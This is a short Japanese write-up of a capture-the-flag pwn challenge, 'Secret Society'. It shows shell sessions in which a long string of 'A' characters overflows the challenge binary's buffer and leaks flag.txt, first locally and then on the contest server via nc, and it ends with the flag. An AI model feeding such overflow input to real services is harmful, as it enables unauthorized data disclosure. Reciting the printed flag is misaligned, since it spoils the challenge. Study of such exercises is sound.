 # Secret Society:Pwn:435pts
Wanna enter the Secret Society? Well you have to find the secret code first!  
nc chall.csivit.com 30041  
[secret-society](secret-society)  

# Solution
secret-societyが渡される。  
とりあえず実行するとncとの違いが見られた。  
```bash
$ ls
secret-society
$ ./secret-society
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a double agent, it's game over for you.
$ nc chall.csivit.com 30041
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, we are everywhere.
```
flag.txtを作ってみると同じ動きをするようだ。  
これはstringsの結果にflag.txtが存在することから予想した。  
```bash
$ echo "Test{Foooooooooooooooooooo}" > flag.txt
$ ls
flag.txt  secret-society
$ ./secret-society
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, we are everywhere.
```
適当にAを入力するとflag.txtが見られたため、ncでも同様に行う。  
```bash
$ ./secret-society
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,Test{Foooooooooooooooooooo}
$ nc chall.csivit.com 30041
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,csivit{Bu!!er_e3pl01ts_ar5_5asy}
```
flagが得られた。  
理由は不明だが、形式が違う。  

## csivit{Bu!!er_e3pl01ts_ar5_5asy}